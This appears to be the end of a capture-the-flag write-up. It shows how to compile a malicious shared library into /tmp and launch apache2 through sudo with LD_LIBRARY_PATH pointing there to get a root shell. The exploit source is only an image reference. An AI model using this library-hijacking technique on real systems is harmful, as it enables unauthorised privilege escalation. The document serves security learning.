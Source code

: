 Then we compile it using the following command:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC ./exploit.c
```

Now we run the sudo command like the following:

```bash
sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

![root](16.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
